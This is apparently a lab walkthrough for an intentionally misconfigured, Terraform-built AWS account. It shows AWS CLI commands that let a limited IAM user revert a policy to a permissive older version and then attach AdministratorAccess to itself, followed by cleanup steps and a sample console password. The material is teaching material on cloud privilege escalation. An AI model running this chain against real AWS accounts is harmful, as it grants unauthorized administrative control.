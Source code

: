 # Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

The first command lists existing policies managed by aws and your account. While the seconds lists inline policies that only exist for the object they are attached too.

Lets look into the following policies changePolicyVersion and developerPermissions.

Replace **ACCOUNT_ID** in all following commands with the 12 digit account id you got from your terraform output.

```sh
aws iam get-user-policy --user-name demo --policy-name changePolicyVersion

aws iam get-policy --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions
```

It looks like we have access to change policy versions and the developerPermissions seems to have several versions.

Lets list the versions and look at the different version permissions.

```sh
aws iam list-policy-versions --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions

aws iam get-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions --version-id v2

aws iam get-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions --version-id v1
```

It looks like the **v1** policy grants us full iam permissions, lets change the policy to use it as the default policy version.

```sh
aws iam set-default-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions --version-id v1
```

Our user now has full iam permissions, lets give ourself administrative permissions.

```sh
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name demo

aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove the policies we attached and then let terraform do the rest.

```sh
aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
